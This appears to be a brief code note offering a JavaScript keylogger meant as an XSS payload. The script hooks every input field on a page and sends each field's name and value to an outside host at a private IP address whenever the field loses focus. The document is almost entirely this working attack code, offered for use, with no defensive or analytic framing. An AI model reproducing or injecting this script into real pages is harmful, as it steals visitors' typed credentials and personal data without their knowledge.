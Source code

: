 JavaScript Key logger
--------------------------
Log key stokes using js, good for xss
has not been tested yet.

```javascript
var input = document.querySelectorAll("input");

function saveLocal(e) {
    var url = "http://192.168.30.178:8000/"; 
    var method = "GET"; //Metodo HTTP
    var request = new XMLHttpRequest();
    request.open(method, url + this.name + ":" + this.value, false);
    request.send();
}

for (var i = 0; i < input.length; i++) {

    input[i].addEventListener("blur", saveLocal);
    
    }
```


